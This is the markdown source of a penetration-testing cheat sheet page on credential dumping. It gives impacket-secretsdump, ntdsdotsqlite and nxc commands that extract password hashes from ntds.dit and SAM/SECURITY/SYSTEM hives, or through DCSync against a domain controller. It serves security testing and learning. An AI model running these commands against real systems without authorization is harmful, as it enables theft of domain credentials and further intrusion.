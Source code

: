 ```yaml
---
title: "secretsdump"
date: 2024-7-2
tags: ["secretsdump", "impacket", "active directory", "ad", "domain controller", "Windows", "ntds.dit", "hive", "hashes", "nxc", "dcsync"]
---
```


### Convert ntds.dit to .sqlite

<div>

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

</div>

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

</div>

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

</div>

{{< /tabcontent >}}

### With Dcsync right

{{< tab set3 tab1 active >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

</div>

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

<div>

```console
nxc smb -dc-ip <DC> -u <USER> -H <HASH> --ntds
```

</div>

{{< /tabcontent >}}

<br>